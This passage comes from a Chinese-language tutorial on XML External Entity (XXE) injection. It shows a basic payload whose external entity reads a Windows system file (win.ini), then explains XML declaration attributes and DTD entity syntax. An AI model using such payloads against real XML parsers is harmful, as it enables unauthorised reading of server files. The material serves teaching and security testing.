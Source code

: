 

基本的payload结构：

![](https://i.loli.net/2021/02/14/oPEhW9IDKQUZxJ6.jpg)

eg：

```xml-dtd
<?xml version="1.0"?> 
<!DOCTYPE a [
	<!ENTITY d SYSTEM "file:///c:/windows/win.ini">
]>
<abc>&d;</abc>
```



> **xml文档声明结构**
>
> eg：
>
> ```xml
> <?xml version="1.0" encoding="utf-8" standalone="no"?>
> ```
>
> **l  version属性：用于说明当前xml文档的版本，因为都是在用1.0，所以这个属性值大家都写1.0，version属性是必须的；**
>
> **l  encoding属性：用于说明当前xml文档使用的字符编码集，xml解析器会使用这个编码来解析xml文档。encoding属性是可选的，默认为UTF-8。注意，如果当前xml文档使用的字符编码集是gb2312，而encoding属性的值为UTF-8，那么一定会出错的；**
>
> **l  standalone属性：用于说明当前xml文档是否为独立文档，如果该属性值为yes，表示当前xml文档是独立的，如果为no表示当前xml文档不是独立的，即依赖外部的约束文件。默认是yes**
>
> **l  没有xml文档声明的xml文档，不是格式良好的xml文档；**
>
> **l  xml文档声明必须从xml文档的1行1列开始。**



> **DTD实体:**
>
> ```
> 一般实体的声明：<!ENTITY 实体名称 "实体的值">
> 	引用方法：&实体名称;
> 	p.s.可在DTD、XML、声明前以及实体声明内部引用。
> 参数实体的声明：<!ENTITY % 实体名称 "实体的值">	
> 	引用方法：%实体名称;	
> 	ps:只能在DTDT中引用，不可在声明前以及实体声明内部引用
> 
> 记住“&”符号要进行编码
> ```
>
> **DTD实体声明**
>
> ```
> 内部实体声明：<!ENTITY 实体名称 "实体的值">
> 当引用一般实体时，由三部分构成：&、实体名、；，当是用参数传入xml的时候，&需URL编码，不然&会被认为是参数间的连接符号。
> 
> 外部实体声明：<!ENTITY 实体名称 SYSTEM "URI/URL">
> ```
